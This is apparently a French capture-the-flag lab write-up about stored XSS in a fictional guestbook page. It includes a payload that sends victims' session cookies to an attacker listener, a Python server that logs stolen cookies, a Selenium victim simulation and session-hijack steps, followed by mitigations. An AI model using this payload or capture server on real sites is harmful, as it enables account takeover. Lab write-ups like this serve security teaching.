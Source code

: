 ```yaml
---
title: Write-up 2
next: "/write-ups/wu3"
prev: "/write-ups/wu1"
---
```


# 🏰 Stored XSS & Vol de Cookie - Livre d'Or de Lannisport

## 🎯 Objectif
John doit voler le **cookie de session d’un garde** pour accéder à Castral-Roc.
Pour cela, il injecte un **XSS stocké** dans le **livre d’or** afin de récupérer le cookie **non protégé par HttpOnly**.

**Flag attendu :** Le cookie de session du garde.

---

## ⚙️ Environnement
- **Cible :** lannisport.south
- **Page vulnérable :** livre_dor.php
- **Langage :** PHP / JavaScript

---

## 🚀 Étape 1 : Injecter un XSS dans le livre d’or
Le formulaire du livre d’or **ne filtre pas les entrées**, permettant d’injecter un script malveillant.

🔹 **Script XSS à injecter dans un commentaire** :
```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://10.10.10.20:8000/?cookie=' + document.cookie, true);
xhr.send();
```

📌 **Effet** : Quand un garde consulte la page, son cookie de session est envoyé à l’attaquant.

---

## 🔍 Étape 2 : Capturer le cookie sur Kali
L’attaquant met en place un **serveur d’écoute** pour récupérer les cookies volés.

🔹 **Script Python sur Kali** :
```python
from http.server import BaseHTTPRequestHandler, HTTPServer

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        if "cookie" in self.path:
            cookie = self.path.split("=")[1]
            print(f"Cookie volé : {cookie}")
            with open("stolen_cookies.txt", "a") as f:
                f.write(cookie + "\n")
        self.send_response(200)
        self.end_headers()

server_address = ('10.10.10.20', 8000)
httpd = HTTPServer(server_address, Handler)
print("[+] Serveur en écoute sur le port 8000...")
httpd.serve_forever()
```

📌 **Démarrer le serveur d’écoute sur Kali** :
```bash
python3 capture_server.py
```

---

## 🚀 Étape 3 : Déclencher l’attaque avec Selenium
Un **script Selenium** simule la navigation d’un garde qui consulte le livre d’or.

🔹 **Script Selenium (Victime - MacOS)** :
```python
from selenium import webdriver
from selenium.webdriver.common.by import By
import time

driver = webdriver.Chrome()
driver.get("http://lannisport.south/login.php")

driver.find_element(By.NAME, "username").send_keys("garde")
driver.find_element(By.NAME, "password").send_keys("password")
driver.find_element(By.NAME, "submit").click()

time.sleep(3)
driver.get("http://lannisport.south/livre_dor.php")
time.sleep(10)

driver.quit()
```
📌 **Quand Selenium exécute ce script, il déclenche le XSS et envoie le cookie à Kali.**

---

## 🎯 Étape 4 : Validation du Flag
✅ **Kali reçoit le cookie de session** :
```bash
cat stolen_cookies.txt
```
✅ **Utilisation du cookie volé pour usurper la session du garde** :
- Ouvrir les outils développeur (F12) > **Application** > **Cookies**.
- Modifier PHPSESSID avec la valeur capturée.
- Recharger la page.

**🚀 Succès ! L’attaque est réalisée et le flag récupéré !** 🔥

---

## 🔒 Mitigation & Sécurisation
- **Activer HttpOnly sur les cookies** pour empêcher l’accès JavaScript.
- **Filtrer les entrées utilisateur** (htmlspecialchars()) pour empêcher le XSS.
- **Utiliser CSP (Content Security Policy)** pour bloquer les scripts inline.

---

## 🏆 Conclusion
- **Un XSS stocké a été exploité pour voler un cookie de session.**
- **Le serveur d’écoute Kali a capturé le flag.**
- **L’attaque est réussie !** 🚀🔥